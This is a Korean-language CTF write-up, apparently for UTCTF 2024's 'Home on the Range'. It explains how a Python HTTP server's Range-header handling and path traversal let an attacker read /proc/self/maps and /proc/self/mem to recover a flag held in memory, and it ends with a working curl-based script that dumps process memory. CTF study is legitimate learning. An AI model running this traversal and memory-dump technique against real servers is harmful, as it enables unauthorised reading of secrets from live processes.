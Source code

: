 ```python
signal.signal(signal.SIGTERM, exit_handler)

sys.stderr.write("Server ready\n")
server.serve_forever()

with open("/setup/flag.txt", "w") as f:
    f.write(the_flag)
```       
      
`/setup/flag.txt` 파일을 읽어 `the_flag` 변수에 플래그를 저장한다. 하지만, 해당 파일은 `os.remove()` 함수에 의해 삭제되어 볼 수 없다.      
       
```python 
range_match = re.match("^bytes=\\d*-\\d*(, *\\d*-\\d*)*$", self.headers.get("range", "none"))
```       
      
`Handler` 클래스의 `try_serve_file()` 메서드를 보면, HTTP Header에 `Range: ` 헤더를 읽어와 `bytes=\\d*-\\d*` 정규 표현식과 일치하는지 확인하고 파일의 내용을 읽어온다.      
       
<img src="/assets/images/ctf/2024/ut/Home-on-the-Range/maps.jpg" width="700px">     
                
`/proc/self/maps`를 읽어 `server.py` 바이너리가 어느 주소에 있는지 확인하고, `/proc/self/mem`에서 해당 주소의 바이너리를 읽어오면 `the_flag` 변수에 저장된 플래그 값을 읽을 수 있다.       
                   
## Exploit Code       
```python
import re
import os
memory = "http://guppy.utctf.live:7884/../../../proc/self/mem"

os.system("curl --path-as-is -H 'Range: bytes=0-494' http://guppy.utctf.live:7884/../../../proc/self/maps > maps.txt")

with open("maps.txt") as f:
    maps_contents = f.readlines()

for line in maps_contents: 
    r = re.compile(r"([0-9a-f]+)-([0-9a-f]+)")
    match = r.match(line)
    if match:
        start_addr, end_addr = match.groups()

        start_addr = int(start_addr, 16)
        end_addr = int(end_addr, 16) - 1

        output_file = f"memory_{start_addr}_{end_addr}.bin"

        range_header = f"bytes={start_addr}-{end_addr}"
        os.system(f"curl --path-as-is -H 'Range: {range_header}' -s {memory} -o {output_file}")
        print(f"Download memory_{start_addr}_{end_addr}.bin")
```          
            